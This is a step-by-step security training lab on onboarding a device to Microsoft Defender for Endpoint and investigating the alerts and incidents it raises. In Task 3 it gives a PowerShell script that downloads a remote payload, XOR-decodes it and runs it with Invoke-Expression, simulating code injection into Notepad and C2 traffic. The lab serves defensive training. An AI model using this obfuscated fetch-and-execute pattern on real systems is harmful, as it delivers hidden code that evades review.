# Lab 04 - Exercise 2: Mitigate Attacks with Microsoft Defender for Endpoint

## Lab Scenario

You are a Security Operations Analyst working at a company that is implementing Microsoft Defender for Endpoint. Your manager plans to onboard a few devices to provide insight into required changes to the Security Operations (SecOps) team response procedures.

To explore the Defender for Endpoint attack mitigation capabilities, you will run two simulated attacks.

## Lab Objectives

 In this lab, you will perform the following:
- Task 1: Verify Device onboarding
- Task 2: Investigate alerts and incidents
- Task 3: Simulate an Attack
- Task 4: Investigate the simulated attack as a single incident

## Estimated Timing: 60 minutes

  
  
### Task 1: Verify Device onboarding

In this task, you will confirm that the device is onboarded successfully and create a test alert.

1. In the left-hand menu, Select **Settings (1)** from the left menu bar, then from the Settings page select **Endpoints (2)**.

    

1. In the **Device Management** section, select **Onboarding**, and verify that the **"First device onboarded"** message now shows **Completed**.

    

1. Scroll down and under the section *"2. Run a detection test"*, copy the detection test script by selecting the **Copy** button.  

    

1. In the Windows search bar of the labvm, type **CMD (1)** and choose **Run as Administrator (2)** on the right pane for the Command Prompt app.

    

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run. 

1. Paste the script by right-clicking in the **Administrator: Command Prompt** windows and press **Enter** to run it.

    > **Note:** The window automatically closes once the script runs successfully, and within a few minutes, alerts will be generated in the Microsoft Defender XDR portal.

### Task 2: Investigate alerts and incidents

In this task, you will investigate the alerts and incidents generated by the onboarding detection test script in the previous task.

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Alerts**.

    >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

1. In the **Alerts** pane, select the alert named **Suspicious PowerShell commandline**s to load its details.

   

1. Review the *Alert story* timeline, and then review the *Details* and *Recommendations* tabs.

    >**Note:** Under the alert *Details* tab you can scroll down to the *Incident details* section and select the *Execution incident on one endpoint* link to open the incident.

1. In the Microsoft Defender XDR portal select **Incidents & alerts** from the left menu bar, then select **Incidents**

1. Clear the *Alert severity* filter by selecting the **X** on the right of the filter.

1. A new incident called *Execution incident on one endpoint* appears in the right pane. Select the incident name to load its details.

    

1. Select the **Manage incident** link (with a pencil icon) and a new window blade appears.

    

1. Under **Incident tags** type "Simulation" and select **Simulation (Create new) (1)** to create a new tag.

    

1. Select the toggle **Assign to**  and add your  **<inject key="AzureAdUserEmail"></inject>** user account as owner of the incident.

1. Under **Classification**, expand the drop-down menu.

1. Under **Informational, expected activity**, select **Security testing (3)**.

1. Select **Save (4)** to update the incident and finish.

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. In a real incident the *Attack story* tab displays the *Incident graph*. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

### Task 3: Simulate an Attack

> **Warning:** This simulated attack provides a great hands-on learning experience. Only execute the attack as outlined in this lab when using the course-provided Azure tenant. You may explore other simulated attacks *after* completing this training course with the same tenant.

In this task, you will simulate an attack on the WIN1 virtual machine and verify that the attack is detected and mitigated by Microsoft Defender for Endpoint.

1. On the labvm, *right-click* the **Start** button and choose **Windows PowerShell (Admin)**.

1. When the "User Account Control" window is shown, select **Yes** to allow the app to run.

1. Copy and paste the following simulation script into the PowerShell window and press **Enter** to run it:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
    $xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://raw.githubusercontent.com/MicrosoftLearning/SC-200T00A-Microsoft-Security-Operations-Analyst/refs/heads/master/Allfiles/recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} }; Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

1. The script will produce several lines of output and a message that it *Failed to resolve Domain Controllers in the domain*. A few seconds later, the *Notepad* app will open. A simulated attack code will be injected into Notepad. Keep the automatically generated Notepad instance open to experience the full scenario. The simulated attack code will attempt to communicate to an external IP address (simulating a C2 server).

   

### Task 4: Investigate the simulated attack as a single incident

In this task, you will investigate the simulated attack on the WIN1 virtual machine, treating it as a single incident in Microsoft Defender for Endpoint. This process will help you understand how to analyze security incidents and respond effectively.

1. In the Microsoft Defender XDR portal expand **Investigation & responce** from the left menu bar, then expand **Incidents & alerts** and select **Incidents**.

   >**Note:** On updated versions of the Microsoft Defender XDR portal page *Incidents & alerts* are found under the *Investigations & response* menu heading.

1. A new incident called *Multi-stage incident involving Defense evasion & Discovery on one endpoint* is in the right pane. Select the incident name to load its details.

   >**Note:** If you do not see the incident, make sure to clear all the filter by selecting the **X** on the right of the filter.

    

1. Under the *Attack story* tab, collapse the **Alerts** and **Incident details** panes to view the full **Incident graph**.

1. Mouse over and select the **Incident graph nodes** to review the *entities*.

1. Re-expand the **Alerts** pane (left-side) and select the **Play attack story** *Run* icon. This shows the attack timeline alert by alert and dynamically populates the *Incident graph*.

   

1. Review the contents of the *Attack story, Alerts, Assets, Investigations, Evidence and Response*, and *Summary* tabs. Devices and Users are under the *Assets* tab. **Hint:** Some tabs might be hidden due the size of your display. Select the ellipsis tab (...) to make them appear.

1. Under the **Evidence and Response** tab, select **IP addresses** then select the displayed *IP address*. 

   

1. In the pop-up window review the IP address details and scroll down and select the **Open IP address page** button.

   

1. Review the contents of the *Ip address* page *Overview, Incidents & alerts and Observed in organizations* tabs. Some tabs may not contain and information for the IP address.

## Review
In this lab, you have completed the following:
- Ran Simulated Attacks
- Investigated the Attacks
- Simulated an Attack
- Investigated the simulated attack as a single incident

## You have successfully completed the lab

